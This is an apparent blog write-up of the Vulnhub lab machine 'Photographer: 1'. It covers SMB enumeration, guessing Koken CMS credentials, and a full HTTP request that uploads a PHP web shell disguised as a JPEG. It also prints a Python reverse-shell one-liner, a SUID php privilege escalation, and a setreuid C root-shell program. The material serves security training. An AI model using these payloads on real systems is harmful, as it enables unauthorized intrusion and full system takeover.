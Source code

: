 ```yaml
---
layout: post
title: "Photographer: 1 Write-Up"
categories: [write-ups]
permalink: /write-ups/photographer_1_writeup/
---
```

Photographer: 1 is a relatively new machine in Vulnhub, which was developed to help on the preparation for OSCP. The goal is to get the two flags inside of the machine (user.txt and proof.txt).
<h1>Network Scan</h1>
As always, I've used Nmap to sweep the network to find the IP of the target machine.
![Network Scan](network.png)
10.10.10.10 is the IP of my machine, so 10.10.10.128 is the target machine.
<br><br>
<h1>Port Scan</h1>
![Port scan](port.png)
This machine has two HTTP ports and two SMB ports. I usually start with the HTTP ones because I find myself more comfortable working with them, but this time I decided to start with SMB.
<h1>SMB Enumeration</h1>
First, I enumerated the shares using smbclient.
![SMB Shares](shares.png)
The only interesting share is "sambashare", so I tried to read it without password. 
![SMB list](sambaShareList.png)
It worked, so I downloaded the two files to my machine to inspect them more easily. The wordpress.bkp.zip has a fresh installation of Wordpress 5.4.2 (as seen in the wp-includes/version.php file) while the mailsent.txt is an email to a user called Daisa.
![Wordpress Version](wordpress.png)
![Mail](mailsent.png)
I also used enum4linux to get a bit more information, which got me two users on the machine.
![Enum4linux](enum4linux.png)
<h1>Port 80 Enumeration</h1>
At a first glance port 80 doesn't have anything interesting, but after rooting the machine I found that the koken directory could be accessed from there (if you can find it fuzzing the directories). This isn't necessary as port 8000 directs you to the koken directory.
<h1>Port 8000 Enumeration</h1>
I found both on the NSE Scripts output and the page source the "Koken 0.22.24" string, which refers to the CMS used to build the page. There is [an entry on ExploitDB with an authenticated Arbitrary File Upload](https://www.exploit-db.com/exploits/48706) for this version (later I found that the author of the entry is the creator of the machine).<br>
On the timeline page of the blog there is a shell.php file which attempts to connect to a machine, so it is confirmed that the exploit works on the installed version.
![Shell.php Timeline](shellTime.png)
![Shell.php Timeline 2](shellTime2.png)
There is a login form on the admin directory but I didn't found any credential for it yet. After searching for default credentials on the internet or hidden files I decided to go back to my notes and read again the email found on the SMB share.<br>
I guessed that the email used on the blog was "daisa@photographer.com" as the blog is "Daisa Website's". For the password I used "babygirl" because it really caught my attention.
![Login form](loginForm.png)
The credentials "daisa@photographer.com" and "babygirl" worked, so I followed the [exploit](https://www.exploit-db.com/exploits/48706) to upload my shell. I won't explain the process as the ExploitDB explanation is good enough, but I'll leave the HTTP Request that I used which should be enough to upload the shell.
![Upload Shell 1](uploadShell1.png)
{% highlight HTTP %}POST /api.php?/content HTTP/1.1
Host: 10.10.10.128:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.128:8000/admin/
x-koken-auth: cookie
Content-Type: multipart/form-data; boundary=---------------------------888515285638187952681108602
Content-Length: 1077
Connection: close
Cookie: koken_referrer=; koken_session_ci=azOCz7y1EQ2C8yqnmyADuudfsvdiw%2FsIERGMOrBHoMsQCLat9AQJq4hvGRG6arJqXcbdLAhIsMsFnFMzODgYRPEX5oaDfc0m9lRI3i4yDMq72RARdKf3etn6FzFBA4pJjQwVE2iBvvGNcKsVdf8eyB1GRmT1fActCB%2FcvgePW1t0cnIzBJx5rG1SGaDl1bFMCT1mmUP%2FZ5N%2Bl6ZSqTlyiWVs4ApVix06L6EMbw97WlAbyOFNl4jZwZKTjC%2FQo3KS514nXCz2iaf26Kc6blUq3bCRT3KUMdxZ%2FznD%2ByrwKApQsbWHKp6p%2BNavZ0tVWUpPZYNhTCrk1xuTnyIl92FqHcuu%2BS2id6XvjODFeSva1bsX1i1SjeJ9ec25xQdVcwKQ2oKCF9NahZvoy8ofCJ5c3c4tM%2B%2BM5jB55vK2q%2B%2FOBdAq0kCVameuSsIgRymlbbKbtnl6lNm%2BO8rsVTxrvFYfy8OeCgtVESGZqjz3JwrLWMVavxeWFKcCk1ZLpIqRmUer%2FIqkOm8sGb7l9GnnxfbFHP4dKKLi39S6UNPqYESpYpK9BfOyYI%2FaQusRG5RmltKso5%2B2l38l07NrbnsZ0qahDV4pdQJzLUhJXjJIAAONMDjKGLxcv%2F5l5ZZulM7lE0dlnVGfGjhxEhXof7AZ0GB3zJhGJDN3N9SLpQd7JYe9ZLM24GpY3at4RWCnnCgp%2FcbfWdCz%2FEshN9yspvMiNPv%2FFeF6BrtcXndy46ErPEY9St6ay1LzikQ4l2mZdn2E6GZyuttH%2FOVJEI12u70aRWSTQLuAs5TTtAbyn58Q7OJJIBPpX6vSEMAq1vJB1FlQ3CSCTE8mrAfp%2FNhQx4t7QrtNbBJJCV%2Bk7cYb8AUiBBuuk1h8Vi51wfPCWCstJHqSZXQgDs2DWJ3sbYEEGXZ38AgjbjYI7i3PcDl9dOb2PqHCEwfuGKHrgFpXGxsZkjO8vbNYM3dOvju5IXDtDp%2BVDCxFp7bQ0SxIq00T2qhDNRnjH1HdF7xInwD%2FMXT%2BnT4srGRB5xQI%2BMoy4GlHPwGSZf4LTq1y0Wq4TdTUryVC8CaBMle4iowOZ5fzY1zimG5dNkJrtWSW1ilBV8KLXRIeMwjgSzwqcR3%2BXsyP08wG%2FEixfvRqAFsze4s6M%2FHrUc%2BA2o4UjP82nNFfnMxBoMRoiuoE2m46kZnzlS1jSKp%2FS4Xs747%2FEz7dFFdqTvQFLtFkG0mZQcln55%2FXlM4ztPem2FbGioIkvUk0IB%2Bh10LK4abxQ6avAYP1V3ipaiWEgz%2BBty3t3615e0bf1ba28084be86fbe55846d5c1b6d9fb21

-----------------------------888515285638187952681108602
Content-Disposition: form-data; name="name"

shell2.php
-----------------------------888515285638187952681108602
Content-Disposition: form-data; name="chunk"

0
-----------------------------888515285638187952681108602
Content-Disposition: form-data; name="chunks"

1
-----------------------------888515285638187952681108602
Content-Disposition: form-data; name="upload_session_start"

1598278209
-----------------------------888515285638187952681108602
Content-Disposition: form-data; name="visibility"

public
-----------------------------888515285638187952681108602
Content-Disposition: form-data; name="license"

all
-----------------------------888515285638187952681108602
Content-Disposition: form-data; name="max_download"

none
-----------------------------888515285638187952681108602
Content-Disposition: form-data; name="file"; filename="shell.php.jpg"
Content-Type: image/jpeg

ÿØÿÛ<?php system($_REQUEST[cmd])?>

-----------------------------888515285638187952681108602--
{% endhighlight %}
![Upload Shell 2](uploadShell2.png)
<h1>www-data Shell</h1>
I used the "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'" command to get a reverse shell.
![Reverse Shell](revShell.png)
I found the user.txt flag in the /home/daisa/ directory and I also found the credentials used to access the MySQL server inside the /var/www/html/koken/storage/configuration/database.php after spending a while searching for them, even though I didn't find anything useful inside the server.
![DB credentials](dbcreds.png)
After this, I used the LinEnum script to enumerate the SUID binaries and I noticed that php7.2 had the SUID bit enabled, which looked really promising.
![SUID Binaries](suidbin.png)
<h1>PrivEsc to Root</h1>
There is an entry on [GTFOBins](https://gtfobins.github.io/gtfobins/php/) for php with SUID, so I followed the instructions to get a root shell.
![PrivEsc 1](privesc1.png)
As seen in the image, the shell has an effective UID of 0 which means that we have root privileges, but some programs ignore the EUID. In my [write-up for the Mr Robot 1 machine](https://barvent.github.io/write-ups/mrrobot_1_writeup/) I didn't try to get UID of 0, so I'll show a way to do it in this write-up.
<h1>Changing EUID to UID</h1>
Probably there are faster ways, but I'll explain the one that I know because it only requires to have access to a compiler. To this method we need to write a C code that uses the SetRUID system call and then gives us a shell.
{% highlight C %}#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char** argv) {
        if (setreuid(0,0) < 0) {
                perror("Setuid\n");
                exit(1);
        }
        if (system("/bin/bash") < 0) {
                perror("Error executing command\n");
                exit(1);
        }
}{% endhighlight %}
Once we have the code we only need to upload it to the machine, compile it and run it to get a shell with UID of 0 (and more interactive than the one we had before).
![EUID2UID](EUID2UID.png)
The last flag is in the /root/ directory.
<h1>Conclusions</h1>
This is an easy machine which involves a little bit of guessing at the beginning and basic knowledge of cybersecurity. I probably spent more time than necessary on this machine because I wanted to find the credentials for the database, but I feel satisfied because I was able to guess the Koken admin credentials pretty fast.
